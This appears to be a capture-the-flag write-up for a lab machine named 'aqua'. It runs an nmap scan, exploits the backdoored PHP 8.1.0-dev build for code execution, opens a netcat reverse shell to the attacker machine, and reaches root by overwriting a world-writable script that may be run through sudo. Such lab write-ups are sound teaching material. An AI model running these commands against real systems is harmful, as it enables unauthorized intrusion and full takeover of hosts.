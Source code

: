 # Walkthrough: aqua

## 1. Reconnaissance

To identify possible attack vectors, the first step is to scan the host for open ports. This can be done by using `nmap`. The parameter `-p-` instructs nmap to scan all 65535 ports:

```bash
# nmap -A -p- 192.168.60.3
[..]
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   3072 b7:a1:63:7e:11:df:24:9f:13:9e:85:b2:ac:f4:ab:47 (RSA)
|   256 7e:c2:cc:27:30:5a:5a:c9:20:96:c0:aa:3b:c8:64:1f (ECDSA)
|_  256 ab:c7:78:52:73:f4:80:7a:75:18:92:20:19:67:0e:9c (ED25519)
80/tcp open  http    Apache httpd (PHP 8.1.0-dev)
|_http-title: AQUA Design Studios
|_http-server-header: Apache
[..]
```

The output suggests that there are two open ports: an SSH and an HTTP server. The Apache HTTP server on port 80 appears to host a static website, which can be viewed in any web browser:

![](/home/ben/Desktop/Drive/notes/img/2022-06-25-14-19-00-image.png)

## 2. Exploitation / Remote code execution

The next step is to exploit vulnerabilities in the exposed services. The first option that comes to mind is the PHP version `8.1.0-dev` which was identified by the `nmap` scan.

A quick lookup with `searchsploit` shows an interesting exploit:

```bash
# searchsploit -t 8.1.0-dev      
---------------------------------------------------------------------------------
 Exploit Title                                            |  Path
---------------------------------------------------------------------------------
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution       | php/webapps/49933.py
---------------------------------------------------------------------------------
```

This remote code execution vulnerability has been introduced by malicious actors in 2021: [PHP 8.1.0-dev - "User-Agentt Remote Code Execution"](https://www.exploit-db.com/exploits/49933)

We can examine the exploit script via `searchsploit -x php/webapps/49933.py`. Let's run it and see if it works:

```bash
# python3 /usr/share/exploitdb/exploits/php/webapps/49933.py
Enter the full host url:
http://192.168.60.3/

Interactive shell is opened on http://192.168.60.3/ 
Can't acces tty; job crontol turned off.
$ id 
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

Cool! Looks like we can execute commands on the machine. The next step is to establish a reverse shell for an interactive experience. We can use this [Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md).

Establishing the reverse shell happens in two steps:

1. Start a listener on your local Kali Linux machine on some port:  `nc -lnvp 4242`

2. Connect to the listener from `aqua` by using the Python exploit script from above and then executing:
   ```bash
   $ nc -e /bin/bash 192.168.60.2 4242
   ```
   > Note that you need to provide the IP address of your Kali machine, which is `192.168.60.2`.

As soon as the command in step 2 is executed, the listener from step 1 will show an incoming connection from `aqua`. You can now type shell commands that will be executed on the remote machine.

For a more convenient experience, it is recommended to upgrade the connection to an [interactive TTY](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/). To do this, simply execute `python3 -c 'import pty; pty.spawn("/bin/bash")'`:

```bash
$ nc -lnvp 4242
listening on [any] 4242 ..connect to [192.168.60.2] from (UNKNOWN) [192.168.60.3] 57206
python3 -c 'import pty; pty.spawn("/bin/bash")'
daemon@aqua:/$ 
```

Now, there is a shell prompt and we can clearly see that we are logged in as the `daemon` user.

Now we can explore the file system with a couple of `ls` and `cd` commands to locate the first flag:

```bash
daemon@aqua:/$ ls -al /home/aqua                                                    
total 24                                                             
drwxr-xr-x 2 aqua aqua 4096 Jun 25 11:35 .                           
drwxr-xr-x 4 root root 4096 Jun 25 11:35 ..                          
-rw-r--r-- 1 aqua aqua  220 Aug  4  2021 .bash_logout                
-rw-r--r-- 1 aqua aqua 3526 Aug  4  2021 .bashrc                     
-rw-r--r-- 1 aqua aqua  807 Aug  4  2021 .profile                    
-rw-r--r-- 1 aqua aqua   69 Jun 25 11:35 token                      
daemon@aqua:/$ cat /home/aqua/token                                               
Hello there! This one is for you: AQUA{r3m0te_b4ckd00rz_ar3_aw3s0me} 
```

## 3. Privilege escalation

The next step is to escalate privileges to root to completely take control of the machine.

One of the first attempts should be to try if we can execute commands as root via `sudo`:

```bash
daemon@aqua:/$ sudo -l                                                                                          
Matching Defaults entries for daemon on aqua:                                                        
    env_reset, mail_badpass,                                                                         
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin                    

User daemon may run the following commands on aqua:
    (root) NOPASSWD: /opt/restart-apache
```

It appears that the daemon user can run the script `/opt/restart-apache` as root without a password. That sounds nice, let's have a look at the file:

```bash
daemon@aqua:/$ cat /opt/restart-apache
#!/bin/bash

# Sometimes Apache just stops working...
# This script simply restarts the web server.

echo "Restarting Apache. This might take a moment..."
systemctl restart apache2.service
echo "Done!"
```

Apparently, the script simply restarts the Apache web server. Investigating the file permissions with `ls` shows that ANYONE can modify this file:

```bash
daemon@aqua:/$ ls -al /opt/restart-apache
-rwxrwxrwx 1 root root 202 Jun 25 11:39 /opt/restart-apache
```

Well, that's... weird? And insecure!

So let's override the file with another script that just runs the `bash` command:

```bash
daemon@aqua:/$ printf '#!/bin/bash\nbash' > /opt/restart-apache
```

Running this script via sudo should drop us into an interactive root shell:

```bash
daemon@aqua:/$ sudo /opt/restart-apache
root@aqua:/# id
uid=0(root) gid=0(root) groups=0(root)
root@aqua:/# cat /root/token
Nice job! Looks like you deserve this token: AQUA{w0rld_wr1t4ble_f1l3z_c4n_be_h3lpful}
```

Looks like we found our second token! Challenge completed!
